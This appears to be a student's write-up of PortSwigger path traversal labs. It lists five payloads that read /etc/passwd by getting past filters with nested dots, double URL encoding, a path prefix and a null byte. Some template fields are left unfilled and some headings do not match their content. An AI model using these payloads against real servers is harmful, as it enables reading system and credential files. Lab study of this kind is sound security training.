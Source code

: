 \\# PortSwigger — PathTraversal



\\\*\\\*Date:\\\*\\\* 2025-09-20  



\\\*\\\*Platform:\\\*\\\* Portswigger    



\\\*\\\*Difficulty:\\\*\\\* Easy 



\\\*\\\*Time Spent:\\\*\\\* <e.g.  45m>   



---







\\## Summary / Objective



This is a walkthrough for the portswigger room \\\*\\\*Path Traversal\\\*\\\*. The objective was to enumerate the different websites for path traversal vuln and exploit them and get file /etc/passwd . All testing was performed in the portswigger controlled environment and follows the platform rules.







---







\\## Scope \\\& Rules



\\- Platform: portswigger — lab environment provided by platform.  



\\- Allowed: attacking the assigned machine(s) only, no external attacks.  



\\- Not allowed: any testing outside the lab environment (not performed).







---







\\## Target



\\- IP: `not needed in attack`  



\\- Notes: Vm is a beginner-friendly box focusing on web enumeration and basic privilege escalation.







---







\\## Tools \\\& Methodology



Tools used :  `burpsuite`



Methodology: follow a structured approach — reconnaissance → enumeration → exploitation (proof-of-concept) → post-exploitation → cleanup.







---







\\## Enumeration







\\### 1) Port scan



Command used: Used Different type of commands to access /etc/passwd

../../../etc/passwd --> simple

....//....//....//etc/passwd --> mixed

..%252f..%252f..%252fetc/passwd --> double url encode path some website only encode one time and ignore afterward 

/var/www/images/../../../etc/passwd --> some websites check for file path 

%2f..%2f..%2f..%2fetc%2fpasswd%00.jpg --> some websites check for the reqiued file exetantion but %00 --> null char ignore the .jpg and show us main content   



